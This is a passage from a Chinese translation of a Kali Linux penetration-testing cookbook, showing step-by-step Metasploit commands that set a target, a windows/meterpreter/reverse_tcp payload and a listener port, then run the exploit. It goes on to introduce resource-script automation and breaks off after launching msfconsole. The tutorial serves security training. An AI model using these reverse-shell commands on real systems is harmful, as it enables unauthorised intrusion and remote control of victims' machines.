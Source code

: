 ```
        show options  
```

1.  在这里，我们需要设置有效载荷、目标 IP、本地主机和我们想要的后向连接端口。

1.  我们使用以下命令设置目标：

```
        set RHOST x.x.x.x  
```

1.  我们使用以下命令设置有效载荷：

```
 set payload windows/meterpreter/reverse_tcp  
```

1.  接下来，我们设置我们想要连接的`lhost`和`lport`：

```
 set lhost x.x.x.x
 set lport 4444
```

1.  现在我们运行利用命令：

```
        exploit  
```

1.  成功利用后，我们将查看`meterpreter`会话：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/1d04530a-772f-4990-b211-bfaf55a3e5d7.png)

尽管我们这里只使用了 Windows 的`reverse_tcp`，但 Metasploit 还有很多其他有效载荷，取决于后端操作系统或使用的 Web 应用程序。可以在[`www.offensive-security.com/metasploit-unleashed/msfpayload/`](https://www.offensive-security.com/metasploit-unleashed/msfpayload/)找到有效载荷的完整列表。

# 自动化 Metasploit

Metasploit 支持不同方式的自动化。我们将在这里介绍一种方式，即资源脚本。

**资源脚本**基本上是一组在加载脚本时自动运行的命令。Metasploit 已经包含了一组预先构建的脚本，在企业渗透测试环境中非常有用。可在`/usr/share/metasploit-framework/scripts/resource`目录中看到可用脚本的完整列表：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/e679e4ce-09df-4c2e-9d1f-8b10715d156f.png)

# 如何做…

以下步骤演示了 Metasploit 的自动化：

1.  我们使用以下命令启动 Metasploit：

```
        msfconsole 
```

前面命令的输出如下截图所示：
